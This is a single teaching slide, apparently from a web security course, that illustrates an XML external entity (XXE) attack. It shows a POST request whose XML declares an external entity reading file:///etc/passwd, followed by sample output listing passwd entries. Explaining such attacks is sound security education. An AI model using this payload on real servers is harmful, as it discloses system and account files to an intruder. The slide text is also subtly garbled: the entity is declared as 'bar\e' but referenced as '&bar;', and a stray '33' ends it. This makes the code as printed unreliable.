

# XXE Attacks (Slide 2 of 2)
POST http://www.example.com/xml HTTP/1.1
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY>
   <!ENTITY bar\e SYSTEM
    "file:///etc/passwd">
]>
<foo>
 &bar;
</foo>

The results would be something like this:

HTTP/1.0 200 OK
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
joe:x:4:4:joe:/joe:/bin/sh
moo:x:5:5:moo:/moo:/bin/sh
lizzie:x:6:6:lizzie:/lizzie:/bin/sh
33